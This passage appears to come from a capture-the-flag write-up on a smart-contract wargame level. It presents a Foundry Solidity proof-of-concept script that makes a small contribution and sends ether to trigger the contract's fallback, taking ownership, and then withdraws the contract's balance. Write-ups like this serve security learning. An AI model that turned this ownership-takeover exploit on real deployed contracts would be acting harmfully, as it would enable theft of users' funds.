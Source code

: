 
	This is the corresponding interface of the function we are going to utilize.


	From here, everything is quite simple. After a close look at the contract source code we came with the following PoC:


	```solidity
	contract POC is Script {
	    Callee level1 = Callee(0x7f584a9D74D461eFDaD062AA9AfEe9629b96c780);
	    function run() external {
	        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
	        vm.startBroadcast(deployerPrivateKey);
	
	        console.logUint(level1.getContribution());
	        console.logAddress(level1.owner());
	
	        level1.contribute{value: 1}();
	        (bool sent,bytes memory data) = address(level1).call{value: 1}("");
	        require(sent, "Failed to sennd Ether");
	        console.logBytes(data);
	
	
	        console.logUint(level1.getContribution());
	
	        level1.withdraw();
	
	        console.logUint(level1.getContribution());
	        console.logAddress(level1.owner());
	
	        vm.stopBroadcast();
	    }
	}
	```


